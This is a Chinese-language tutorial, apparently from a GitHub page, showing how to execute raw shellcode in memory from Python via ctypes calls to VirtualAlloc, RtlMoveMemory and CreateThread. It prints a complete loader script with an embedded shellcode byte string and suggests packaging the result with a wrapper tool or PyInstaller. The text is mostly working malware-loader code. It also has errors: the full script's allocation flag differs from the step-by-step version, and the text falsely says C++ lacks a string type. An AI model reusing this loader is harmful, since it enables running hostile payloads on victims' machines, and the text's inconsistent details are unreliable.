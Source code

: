 **申请内存地址**

```
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
```

**解码 shellcode**

```
buf = (ctypes.c_char * len(shellcode)).from_buffer_copy(shellcode)
```
C++ 中没有 string 类型 所以只能用 `char * Length` 的方式保存字符串.

**复制到指定内存地址**

```
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),buf,ctypes.c_int(len(shellcode)))
```

这里对 ptr 进行了 C++ int, 因为引用是 Python 变量, 而 Python 是动态语言, 所以要进行类型转换. 下面的也一样.

**创建线程**

```
ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_int(ptr),ctypes.c_int(0),ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
```
**监听 handle 状态**

```
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

**全部代码**

```
#!/usr/bin/python
import ctypes

shellcode = b""
shellcode = shellcode  + b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
shellcode = shellcode  + b"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
shellcode = shellcode  + b"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
shellcode = shellcode  + b"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
shellcode = shellcode  + b"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
shellcode = shellcode  + b"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
shellcode = shellcode  + b"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
shellcode = shellcode  + b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
shellcode = shellcode  + b"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
shellcode = shellcode  + b"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x6a\x01\x8d\x85\xb9\x00"
shellcode = shellcode  + b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56"
shellcode = shellcode  + b"\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
shellcode = shellcode  + b"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x77\x69\x6e\x76"
shellcode = shellcode  + b"\x65\x72\x00"
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x4000),ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer_copy(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),buf,ctypes.c_int(len(shellcode)))
ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_int(ptr),ctypes.c_int(0),ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

之后可以对它进行封装 例如:

[curtis992250/shecodject](https://github.com/TaroballzChen/shecodject)

或者用 Pyinstaller.